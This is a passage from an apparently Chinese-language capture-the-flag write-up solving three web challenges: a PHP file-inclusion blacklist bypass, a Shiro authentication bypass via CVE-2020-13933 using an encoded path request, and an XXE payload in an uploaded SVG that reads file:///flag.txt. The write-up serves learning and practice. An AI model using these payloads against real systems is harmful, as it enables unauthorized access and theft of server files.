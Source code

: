 查找flag的位置，最后输出flag。

### web-15 一个blog

文件包含，html里提供了包含的源码

```php
$page = $_GET['page'];
$allowed_pages = array('home', 'about', 'contact');

if(isset($page) && !in_array($page, array('flag'))){
include($page . '.php');
} else {
include('home.php');
} 
```

可以发现，只要page参数不等于`flag`，就直接与.php拼接然后include进来。

所以，可以使用相对路径绕过对黑名单的判断`page=./flag`

### web-16 认证绕过

这个题刚开始无从下手，就在乱试。页面就提供了一个/doLogin接口和登录失败提示可以通过/flag/get获取flag。

开始想到sql注入，但是这个题目标题不像是通过sql进行操作的样子。于是就找响应的可以点。

有个可以点是/doLogin接口会将RememberMe的cookie删掉。通过这个关键词入手，发现shiro存在认证绕过漏洞。

有两类，一类是通过爆破Remember的加密方式，获取加密密钥修改权限。这个题目没有RememberMe的相关功能。

第二类是构造特殊路径，绕过shiro的权限对路径的判断。尝试了几个，发现CVE-2020-13933可以使用。成功获取flag。

```text
GET /flag/%3bget HTTP/1.1
```

### web-17 文件解析器

hint说可以解析xml。。。谷了一下有个Blind XXE实体引入的可以利用。而且也能正常回显。剩下的问题是flag的路径在哪里？随便猜了几个，运气好猜到了。。。

```http request
POST /upload HTTP/1.1
Host: 10.167.191.230:8080
Content-Length: 361
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.167.191.230:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycLlwfudSbAubDEQp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.167.191.230:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarycLlwfudSbAubDEQp
Content-Disposition: form-data; name="file"; filename="island_extend.png"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test[
<!ENTITY file SYSTEM "file:///flag.txt">
]>
<reset><login>&file;</login><secret>Any bugs?</secret></reset>

------WebKitFormBoundarycLlwfudSbAubDEQp--
```